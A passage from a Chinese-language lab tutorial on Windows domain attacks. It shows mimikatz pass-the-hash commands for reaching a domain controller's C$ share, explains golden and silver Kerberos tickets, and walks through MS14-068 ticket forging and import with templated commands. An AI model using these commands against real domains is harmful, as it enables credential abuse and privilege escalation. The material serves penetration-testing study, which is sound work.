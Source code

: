 假设我们此时拿到了一个普通域用户的NTLM Hash，而域管理员使用的是同样的密码（测试时我是直接在域控WIN08上抓下来的2333），然后便可以尝试利用改NTLM Hash去访问域控

```
privilege::debug
sekurlsa::pth /user:<域管理员名> /domain:<所属域名称> /ntlm:<域管的NTLM Hash>
```

在弹出的cmd中成功访问到域控的c盘

```
dir \\WIN08\$c
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220408-51c107fc-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220408-51c107fc-f279-1.png)

# 票据传递攻击(Pass-The-Ticket)

**票据传递攻击(Pass-The-Ticket)**就是利用伪造的kerberos票据进行身份认证，该过程不需要密码。

域中的票据又分为**黄金票据(Golden Ticket)**和**白银票据(Silver Ticket)**，其中黄金票据可以使攻击者直接提升为域管理权限，而白银票据则可以使攻击者访问特定的服务。

## 黄金票据(Golden Ticket)

黄金票据的本质就是一张**TGT(Ticket Granting Ticket)**，攻击者使用krbtgt账户的hash伪造黄金票据，进而访问域中包括域控的所有服务器。该攻击过程发生在前面所说的**获取ST**的第**1**步

### MS14-068

利用该漏洞可以将域内任何普通用户提升为域管权限，微软发布的补丁为：`kb3011780`。如果域控没有打上该补丁的话，攻击者就有可能利用该漏洞提升自己的权限

首先我们使用一个普通域用户test登录到WIN7上，并记录该用户的sid：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220425-5ba8e794-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220425-5ba8e794-f279-1.png)

此时访问域控的C盘根目录是没有权限的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220444-66d69b16-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220444-66d69b16-f279-1.png)

我们使用MS-14068.exe，生成票据：

```
MS14-068.exe -u <用户名>@<所属域名称> -s <此用户的sid> -d <域控地址> -p <此用户的密码>
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220502-71e2c002-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220502-71e2c002-f279-1.png)

然后再使用mimikatz将票据导入：

```
kerberos::ptc TGT_test@centoso.com.ccache
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220523-7dfc44c6-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220523-7dfc44c6-f279-1.png)
